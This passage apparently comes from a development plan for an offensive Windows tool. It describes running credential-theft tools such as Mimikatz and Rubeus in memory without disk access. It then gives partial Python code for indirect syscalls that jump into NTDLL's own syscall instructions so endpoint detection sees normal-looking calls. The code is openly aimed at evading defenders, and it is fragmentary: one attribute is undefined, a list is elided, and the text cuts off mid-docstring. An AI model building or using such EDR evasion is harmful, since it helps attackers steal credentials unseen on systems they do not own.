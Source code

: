 **Impact:** ✅ **Run ANY .NET tool** (Mimikatz, Rubeus, etc.) **without disk access**

---

### IMPROVEMENT #3: Indirect Syscalls (SysWhispers3)

**Research:** Latest syscall evasion (2023)

**Enhancement to:** `Core/direct_syscalls.py`
```python
class IndirectSyscalls:
    """
    Indirect syscalls - even more stealthy than direct
    
    Research:
    - SysWhispers3 by @klezVirus (2023)
    - "Bypassing User-Mode Hooks" - Elastic Security
    - Defeats: Syscall hooks in NTDLL
    
    Technique:
    - Don't syscall from our code
    - Jump into middle of legitimate NTDLL syscalls
    - Use existing syscall instructions
    - No custom syscall stubs
    """
    
    def __init__(self):
        self.syscall_stubs = {}
        self._find_syscall_stubs()
    
    def _find_syscall_stubs(self):
        """
        Find existing syscall instructions in NTDLL
        Jump to them instead of creating our own
        """
        ntdll_base = self.kernel32.GetModuleHandleW("ntdll.dll")
        
        # Find Nt* functions
        for func_name in ['NtCreateFile', 'NtWriteFile', ...]:
            func_addr = self._get_function_address(ntdll_base, func_name)
            
            # Find syscall instruction (0x0F 0x05)
            for offset in range(50):
                bytes_at_offset = (ctypes.c_ubyte * 2).from_address(func_addr + offset)
                if bytes_at_offset[0] == 0x0F and bytes_at_offset[1] == 0x05:
                    # Found syscall instruction!
                    self.syscall_stubs[func_name] = func_addr + offset
                    break
    
    def indirect_syscall(self, func_name: str, *args):
        """
        Execute syscall by jumping into NTDLL
        
        Instead of:
            mov r10, rcx
            mov eax, 0x55
            syscall        <-- Our instruction (detectable)
            ret
        
        We do:
            mov r10, rcx
            mov eax, 0x55
            jmp <address of existing syscall in NTDLL>
        
        EDR sees: Syscall from NTDLL (looks normal)
```